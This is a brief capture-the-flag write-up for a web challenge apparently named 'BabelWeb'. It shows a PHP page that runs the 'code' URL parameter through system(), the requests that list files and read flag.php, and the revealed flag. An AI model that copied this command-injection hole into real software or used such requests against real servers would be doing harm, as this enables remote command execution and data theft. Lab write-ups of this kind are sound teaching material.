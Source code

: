 # BabelWeb

- Launch Web server
- Go to the following URL: http://localhost:8080
- You should see a page with a title "BabelWeb"
  - Go to inspect element (F12)
  - Go to the console tab
  - Go to `sources` tab

- You get this code:

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

- Go to http://localhost:8000/?code
  - You see the `<pre>` tag that allow to run code
- Use http://localhost:8000/?code=ls
  - You find 2 files:
    ```php
    flag.php
    index.php
    ```

- You use the cmd = "cat < flag.php" to get the code
  - http://localhost:8000/?code=cat%20%3C%20flag.php

```html
<!--?php
	$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";
<pre-->
```

- Code: `FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}`

